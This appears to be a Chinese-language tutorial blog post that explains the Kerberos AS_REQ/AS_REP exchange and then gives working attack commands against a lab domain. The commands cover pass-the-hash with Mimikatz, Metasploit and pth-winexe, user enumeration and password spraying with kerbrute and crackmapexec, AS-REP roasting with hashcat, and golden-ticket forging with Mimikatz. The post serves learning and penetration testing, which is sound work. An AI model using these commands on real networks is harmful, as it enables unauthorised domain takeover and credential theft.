


参考：https://github.com/daikerSec/windows_protocol
https://blog.csdn.net/qq_36119192/category_10225019.html
https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
目录
kerberos认证流程
在Kerberos协议中主要是有三个角色的存在：
- 访问服务的Client(以下表述为Client 或者用户)
- 提供服务的Server(以下表述为服务)
- KDC（Key Distribution Center）密钥分发中心 （KDC由AS和TGS组成）
kerberos认证过程
- AS_REQ: Client向KDC发起AS_REQ,请求凭据是Client hash加密的时间戳
- AS_REP: KDC使用Client hash进行解密，如果结果正确，KDC生成一个随机字符串，叫Session Key，使用用户名对应的NTLM Hash加密Session Key，也就是enc-part，使用KDC中的krbtgt hash加密Session Key和PAC，(PAC包含用户的sid，用户所在的组)生成TGT，也就是ticket。
- TGS_REQ: 用户通过AS_REP拿到的TGT票据，以及使用自己NTLM Hash解密出来的Session Key加密的客户端信息跟时间戳。去向KDC申请特定服务的访问权限，KDC校验TGT票据
- TGS_REP: KDC使用krbtgt hash进行解密TGT，从TGT中提取到Session Key，再使用Session Key解密其他内容，解密出来的内容同TGT中的信息进行校验来确认客户端是否受信。如果结果正确，就返回用服务hash 加密的TGS票据(这一步不管用户有没有访问服务的权限，只要TGT正确，就返回TGS票据)
- AP_REQ: Client拿着TGS票据去请求服务
- 用户拿着TGS票据去请求服务，服务使用自己的hash解密TGS票据。如果解密正确，**就拿着PAC去KDC那边询问用户有没有访问权限
- 域控解密PAC。获取用户的sid，以及所在的组，再判断用户是否有访问服务的权限，将权限信息返回给服务端。(有些服务并没有验证PAC这一步，这也是白银票据能成功的前提，因为就算拥有用户hash，可以制作TGS，也不能制作PAC，PAC当然也验证不成功)
- AP_REP：服务端根据KDC返回的权限信息做对比，判断用户是否有权限访问该服务器。
AS_REQ
使用daiker大佬的kerberos发包工具，结合流量学习kerberos协议
AS_REQ: Client向KDC发起AS_REQ,请求凭据是Client hash加密的时间戳
- pvno
kerberos 版本号
- msg-type
类型，AS_REQ对应的就是KRB_AS_REQ(0x0a)
- padata
主要是一些认证信息。一个列表，包含若干个认证消息用于认证，我们也可以Authenticator。每个认证消息有type和value。
在AS_REQ阶段主要用到的有两个
一、pA-PAC-REQUEST
这个是启用PAC支持的扩展。PAC(Privilege Attribute Certificate)并不在原生的kerberos里面，是微软引进的扩展。这里对应的是include-pac:true或者include-pac:false(KDC根据include的值来判断返回的票据中是否携带PAC)。
kerberos发包工具选用include-pac
二、pA-ENC-TIMESTAMP
这个是预认证，就是用用户hash加密时间戳，作为value 发送给AS服务器。然后AS服务器那边有用户hash，使用用户hash进行解密，获得时间戳，如果能解密，且时间戳在一定的范围内，则证明认证通过
- REQ-BODY
1、kdc-options 一些flag 字段
2、cname
PrincipalName 类型。PrincipalName包含type和value。
- KRB_NT_PRINCIPAL = 1 如 final(请求用户)
- KRB_NT_SRV_INST = 2 如krbtgt，cifs
- KRB_NT_ENTERPRISE_PRINCIPAL = 10 如 user@domain.com
在AS_REQ里面cname 是请求的用户,这个用户名存在和不存在，返回的包有差异，可以用于枚举域内用户名。
3、sname
PrincipalName 类型
在AS_REQ里面sname是krbtgt，类型是KRB_NT_SRV_INST
4、realm
域名
5、till
到期时间，rubeus和kekeo都是20370913024805Z，这个可以作为特征来检测工具。
6、nonce
随机生成的一个数kekeo/mimikatz nonce是12381973，rubeus nonce是1818848256，这个也可以用来作为特征检测工具。
7、etype
加密类型
1 | des_cbc_crc = 1, |
AS_REP
KDC使用Client hash进行解密，如果结果正确，KDC生成一个随机字符串，叫Session Key，使用用户名对应的NTLM Hash加密Session Key，也就是enc-part，使用KDC中的krbtgt hash加密Session Key和PAC，(PAC包含用户的sid，用户所在的组)生成TGT，也就是ticket。
- msg-type
AS_REQ的响应body对应的就是KRB_AS_REP(0x0b)
- crealm
域名
- cname
用户名
- ticket
这个ticket用于TGS_REQ的认证。是使用krbtgt的hash进行加密的，因此如果我们拥有krbtgt的hash就可以自己制作一个ticket，既黄金票据。
- enc-part
这部分是可以解密的，是使用用户hash加密的，解密后得到Encryptionkey，Encryptionkey里面最重要的字段是key也就是kdc生成的Session Key，作为下阶段的通信密钥。
相关安全问题及利用
pass the hash
由于在进行认证的时候，是用用户hash加密时间戳，即使在使用密码进行登录的情况下，也是先把密码加密成hash，再进行认证。因此在只有用户hash，没有明文密码的情况下也是可以进行认证的。不管是rubeus还是impacket里面的相关脚本都是支持直接使用hash进行认证。其中，如果hash的ntlm hash，然后加密方式是rc4，这种就算做是pass the hash。
Mimikatz进行PTH
1 | privilege::debug |
1 | sekurlsa::pth /user:passth /domain:self.com /ntlm:34da32da8f2188ff7d84815765e3e27c |
MSF PTH
1 | msf > use exploit/windows/smb/psexec |
pth-winexe PTH
1 | pth-winexe -U SELF/passth%00000000000000000000000000000000:34DA32DA8F2188FF7D84815765E3E27C --system --ostype=1 //192.168.93.4 cmd |

用户名枚举
用户名存在，密码错误的情况下
用户名不存在的情况下
通过这个比较就可以写脚本改变cname的值进行用户名枚举。在域内没有域账号的情况下进行用户名枚举，在有账号的情况的下通过LDAP查询就行。如果有域内机器的system权限，那那台机器也是个域账户，账户名是机器名$。
kerbrute用户枚举
1 | __ __ __ |
1 | ./kerbrute_linux_amd64 userenum --dc 192.168.93.2 -d self.com user.txt |
Password Spraying
在已有用户名的时候，可以尝试爆破密码。
密码正确的情况下:
密码错误的情况下:
这个时候就可以进行密码爆破了，但是在实践中，许多渗透测试人员和攻击者通常都会使用一种被称为“密码喷洒（Password Spraying）”的技术来进行测试和攻击。对密码进行喷洒式的攻击，这个叫法很形象，因为它属于自动化密码猜测的一种。这种针对所有用户的自动密码猜测通常是为了避免帐户被锁定，因为针对同一个用户的连续密码猜测会导致帐户被锁定。所以只有对所有用户同时执行特定的密码登录尝试，才能增加破解的概率，消除帐户被锁定的概率。普通的爆破就是用户名固定，爆破密码，但是密码喷洒，是用固定的密码去跑用户名。
kerbrute Password Spraying
1 | ./kerbrute_linux_amd64 passwordspray --dc 192.168.93.2 -d self.com user.txt KXSrR\!w7 |

crackmapexec Password Spraying
1 | crackmapexec smb 192.168.93.2-4 -u ./user.txt -p 'KXSrR!w7' |
这个工具Password Spraying有一个点，就是不会枚举全部用户，当发现使用该密码的用户后会停止Spraying。不能说是缺点，这样是为了用更少的数据包发现使用该密码的用户。

AS-REPRoasting
对于域用户，如果设置了选项”Do not require Kerberos preauthentication”，此时向域控制器的88端口发送AS_REQ请求，对收到的AS_REP内容(enc-part底下的ciper，因为这部分是使用用户hash加密session key，我们通过进行离线爆破就可以获得用户hash)重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用hashcat对其破解，最终获得该用户的明文口令
我们没有用户hash，PA-DATA选择PA_PAC_REQUEST就行
流量包
点击鼠标右键获取AS_REP里面enc-part部分里面的ciper，然后组装成前面32位16进制字符+$+后面的16进制字符得到repHash,然后"$krb5asrep$23${0}@{1}:{2}".format(userName, domain, repHash)得到字符串，交给hashcat 破解就行
1 | ciper: |
hashcat爆破
1 | hashcat -m 18200 '$krb5asrep$23$final@self.com:cb568e61fba6bea717783758469d630e$c0cfb5326b08114a197459c48eded2e9cb34f71eb0eb989cd8adc5373a2766c57357012db820f2b16ed9811c480a3dd11e096afd1c45e28207931136aac6732cc9425cef58e71aa5590281c5bce3d8490a13bb161c31618f2ec0dfe536f3224dc1890a0bad1028bbff1eb9f4d20e2af13d861557e47515eb3e52989f8532c788759d2b9c7c1d429db4d9cbc55c8ce31dcd3ea73b2e880cbc176409ca88e91b82c55cd9ed6c6d15c22f003cf7b25fe88dd1e269561403b1efb22fc8bc9fdba6875760db2837642dd12c84a23113bf5dbbaa' pass.txt |
黄金票据
在AS_REP里面的ticket的encpart是使用krbtgt的hash进行加密的，如果我们拥有krbtgt的hash，就可以给我们自己签发任意用户的TGT票据，这个票据也被称为黄金票据。
Mimikatz制作黄金票据
所需条件：
- 完整的域名
- 域SID
- krbtgt的NTLM Hash
获取域SID
1 | wmic useraccount get Caption,sid |
Mimikatz获取krbtgt的NTLM Hash
1 | privilege::debug |
生成票据
1 | mimikatz.exe "kerberos::golden /admin:whoami /domain:self.com /sid:S-1-5-21-1643912224-245962516-4032159703 /krbtgt:4d4ca8229826cc47163c67f3f6d5fac6 /ticket:Goldnote.kirbi" exit |
当前无票据
导入票据
1 | kerberos::ptt Goldnote.kirbi |